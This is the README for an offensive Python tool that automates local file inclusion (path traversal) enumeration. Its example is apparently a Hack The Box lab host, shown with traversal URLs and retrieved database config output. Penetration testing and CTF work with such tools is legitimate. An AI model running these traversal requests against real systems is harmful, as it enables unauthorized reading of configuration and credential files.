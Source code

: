 # LFI Enumerator

## Overview

LFI Enumerator is a Python script that automates **Local File Inclusion (LFI) enumeration** by iterating through `../` sequences until it finds a valid file path.

## Features

- **Takes a raw HTTP request as input**
- **Finds the correct depth (`../`) for LFI traversal**
- **Stops when a valid file (HTTP 200 OK) is found**
- **Extracts and displays the file content**
- **Customizable `max_depth` for deeper enumeration**

## Installation

Clone the repository and install dependencies:

```bash
git clone https://github.com/YOUR_GITHUB_USERNAME/LFI-Enumerator.git
cd LFI-Enumerator
pip install -r requirements.txt
```

## Usage

1. **Save the vulnerable HTTP request** into a text file (`request.txt`).
    
    - Replace the vulnerable filename with `{enumerate}`:
    
    ```plaintext
    GET /download?filename={enumerate} HTTP/1.1
    Host: api.heal.htb
    Authorization: Bearer eyJhbGciOi...
    ```
    
2. **Run the script and enter the file path to enumerate:**
    
    ```bash
    python3 lfi_enumerator.py -i [requestfile]
    ```
    
3. **Enter the file to search for**, e.g., `/config/database.yml`
    
    ```plaintext
    Enter the file path to enumerate (e.g., /config/database.yml): /config/database.yml
    ```
    

## Example Output

```
[*] Trying: http://api.heal.htb/download?filename=../config/database.yml
[*] Trying: http://api.heal.htb/download?filename=../../config/database.yml
[*] Trying: http://api.heal.htb/download?filename=../../../config/database.yml

[✅] File found at traversal depth: 3
[*] URL: http://api.heal.htb/download?filename=../../../config/database.yml

[📄] File Content:
production:
  adapter: sqlite3
  database: db/production.sqlite3
  pool: 5
  timeout: 5000
```

## Requirements

Python 3 is required. Install dependencies with:

```bash
pip install -r requirements.txt
```
